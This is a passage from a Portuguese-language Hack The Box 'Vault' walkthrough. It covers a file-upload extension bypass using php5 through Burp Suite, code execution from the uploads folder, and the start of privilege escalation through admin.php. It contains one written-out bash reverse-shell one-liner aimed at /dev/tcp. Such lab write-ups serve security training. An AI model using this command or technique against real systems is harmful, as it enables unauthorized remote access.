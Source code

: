 Ajustamos os payloads

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp5.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp6.png)

Iniciamos o ataque, e verificamos quais são aceitas

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp7.png)

Opa, php5 é aceito, e é php, então enviamos a requisição para o `Repeater`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp8.png)

Alteramos e enviamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp9.png)

Upado! Agora testamos no `/uploads` pra ver se realmente está lá

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp10.png)

Temos RCE! Enviamos a requisição para o BurpSuite (Alteramos o método para POST)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp11.png)

Mandamos para o `Repeater`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp12.png)

# Reverse Shell

Agora pegamos um reverse shell

> bash -c 'bash -i >& /dev/tcp/10.10.14.40/443 0>&1'

Foi encodado com o `Control + U`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp13.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp14.png)

# Escalação de privilégio (www-data -> Dave)

Olhando nos arquivos de configuração do site, um nos chamou atenção, o `admin.php`, olhando ele mais a fundo verificamos que ele faz um requisição específica para o `localhost`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_www.png)

Humm... vamos testar. Mandamos a requisição do `admin.php` para o BuprSuite

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_www1.png)
